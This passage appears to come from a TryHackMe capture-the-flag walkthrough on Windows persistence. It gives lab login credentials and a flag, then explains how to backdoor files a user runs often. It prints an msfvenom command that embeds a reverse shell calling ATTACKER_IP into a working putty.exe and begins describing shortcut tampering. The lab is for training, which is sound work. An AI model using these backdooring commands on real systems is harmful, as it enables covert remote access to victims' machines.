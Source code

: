 | | |
|---|---|
|**Username**|thmuser3|
|**Password**|Password321|

If you did everything correctly, you should be logged in to the Administrator's desktop. Note: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing Reconnect.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Log in to the machine via RDP using thmuser3 and execute`C:\flags\flag3.exe` to retrieve your flag.

Once we do all that, we will get flag3:

```
THM{TRUST_ME_IM_AN_ADMIN}
```


# Backdooring Files
----

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

## Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to`C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with`msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

### Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

